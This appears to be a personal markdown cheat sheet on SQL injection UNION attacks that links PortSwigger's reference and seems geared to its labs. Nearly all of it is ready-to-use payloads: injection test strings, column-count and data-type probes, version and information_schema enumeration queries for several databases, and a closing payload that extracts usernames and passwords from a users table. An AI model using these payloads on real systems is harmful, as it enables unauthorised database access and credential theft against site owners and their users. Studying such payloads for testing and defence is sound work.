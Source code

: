 # Portswigger
sql-injection cheat-sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

## SQLi - UNION Attack
When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

Note: don't forget to use url encoding

### Test for SQLi
~~~
jeremy'
jeremy"

jeremy' or 1=1#
jeremy' or 1=1--

jeremy' or 1=2--
~~~


### Number of columns
~~~
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
~~~

finding oclumns with a useful data type
~~~
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
~~~


### Database version
~~~
Oracle 	        SELECT banner FROM v$version
                SELECT version FROM v$instance

Microsoft 	SELECT @@version

PostgreSQL 	SELECT version()

MySQL 	        SELECT @@version
~~~

~~~
' UNION SELECT NULL,NULL,version()#
~~~

### Database tables
~~~
Oracle 	    SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft   SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

PostgreSQL  SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

MySQL 	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
~~~

~~~
' UNION SELECT NULL,NULL,table_name from information_schema.tables#
~~~
### Database columns
~~~
' UNION SELECT NULL,NULL,column_name from information_schema.columns#
~~~

### Interesting data
~~~
' UNION SELECT username, password FROM users--
~~~

concatenation
~~~
' UNION SELECT username || '~' || password FROM users--
~~~